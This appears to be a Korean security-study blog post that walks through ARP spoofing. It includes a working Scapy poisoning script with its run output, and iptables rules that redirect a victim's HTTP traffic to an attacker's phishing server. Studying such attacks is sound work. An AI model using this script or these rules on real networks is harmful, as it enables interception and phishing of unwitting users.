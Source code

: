 ```yaml
---
title: "Cryptography: 스푸핑"
last_modified_at: 2020-10-13T00:26:02-05:00
categories:
  - Cryptography
tags:
  - 암호학
  - 파이썬
  - 암호와 해킹 1판
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


`이 게시물은 화이트해커를 위한 암호와 해킹 1판을 참고하여 작성하였습니다.`

---
### ARP 스푸핑을 구현해보자
---



```python
from scapy.all import *
from time import sleep
#from scapy.layers.12 import Ether, ARP

def getMAC(ip): #맥주소를 얻는 과정 
    ans, unans = srp(Ether(dst='ff-ff-ff-ff-ff-ff')/ARP(pdst=ip), timeout=5, retry=3)
    for s, r in ans:
        return r.sprintf('%Ether.src%')
        
def poisonARP(srcip, targetip, targetmac):
    arp=ARP(op=2, psrc=srcip, pdst=targetip, hwdst=targetmac)
    #arp reply를 srcip 주소로 targetip에 전송하여 목적지 mac주소를 targetmac으로 지정
    send(arp)
  
def restoreARP(victimip, gatewayip, victimmac, gatewaymac):
    #피해를 입었는지 모르게 복구
    arp1=ARP(op=2, psrc=gatewayip, pdst=victimip, hwdst='ff-ff-ff-ff-ff-ff', hwsrc=gatewaymac)
    #arp1은 희생자 컴퓨터의 ARP 테이블에서 게이트웨이 MAC주소를 원래대로 복구하기 위한 ARP패킷
    arp2=ARP(op=2, psrc=victimip, pdst=gatewayip, hwdst='ff-ff-ff-ff-ff-ff', hwsrc=victimmac)
    #arp2는 게이트웨이 ARP 테이블에서 피해 컴퓨터의 MAC 주소를 원래대로 복구하기 위한 ARP패킷
    send(arp1, count=3)
    send(arp2, count=3)

def main():
    gatewayip='192.168.0.1'
    victimip ='192.168.0.234'
    
    victimmac=getMAC(victimip) #맥주소를 얻어온다.
    gatewaymac=getMAC(gatewayip)
    
    if victimmac == None or gatewaymac == None: #맥주소를 얻는데 실패했을 경우
        print('MAC주소를 찾을 수 없습니다')
        return
    print('ARP Spoofing start -> Victim IP [%s]' %victimip) #맥주소를 얻었을 경우
    print('[%s]: Poison ARP Table [%s] -> [%s]' %(victimip, gatewaymac, victimmac))
    
    try:
        while True:
            poisonARP(gatewayip, victimip, victimmac) #스푸핑을 시작한다
            poisonARP(victimip, gatewayip, gatewaymac)
            sleep(3)
    except KeyboardInterrupt:
        restoreARP(victimip, gatewayip, victimmac, gatewaymac)
        print('ARP Spoogin done -> Restored ARP Table')
        
if __name__ == '__main__':
    main()
```

실험이 잘 안되었다. 다음에 리눅스를 활용하여 실험까지도 해보자
{: .notice}

```
Begin emission:
.............Begin emission:
.......Begin emission:
................Begin emission:
.*
Received 38 packets, got 1 answers, remaining 0 packets
Begin emission:
......Begin emission:
.....Begin emission:
.....Begin emission:
........
Received 24 packets, got 0 answers, remaining 1 packets
MAC주소를 찾을 수 없습니다
```


---
### ARP 스푸핑으로 피싱 사이트 유도하기
---

공격자는 자신의 컴퓨터에서 IP 테이블을 조작하여 피해 컴퓨터로부터 전달된 네트워크 데이터를 특정 사이트로 리다이렉션 할 수 있습니다.   
공격자가 웹서버를 운영하고 있다면 피해 컴퓨터로 부터 전달되는 HTTP 패킷을 공격자의 웹서버로 리다이렉션이 가능합니다.  
{: .notice}

먼저 웹 서버의 다큐먼트 루트에 index.html을 다음과 같이 추가한다.
{: .notice}

```html
<html>
	<center>
	<h1> HELLO! WELCOME TO MY SITE </h1>
	<h3> Your Computer is SPOOOOOOOFED!</h3>
	<img src="anonymous.jpg"/>
	</center>
</html>
```

공격자 컴퓨터의 IP 테이블을 다음 명령으로 수정한다.
{: .notice}

```
iptables -t nat -F
iptables -Z			#라우팅테이블 초기화
iptables -A FORWARD -i eth0 -j ACCEPT #eth0로 들어오는 모든 패킷 허용
ipatbles -t nat -A POSTROUTING -o eth0 -j MASQUERADE #컴퓨터의 사설 IP주소를 게이트웨이의 외부 IP 주소로 변경하게 한다.
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination <공격자 웹 서버 IP>
#LAN 외부에서 80번 포트로 들어오는 모든 HTTP 연결을 별개의 네트워크에 있는 HTTP 서버로 라우팅한다.
```

---
### IP 스푸핑으로 피싱 사이트 유도하기
---


{: .notice}
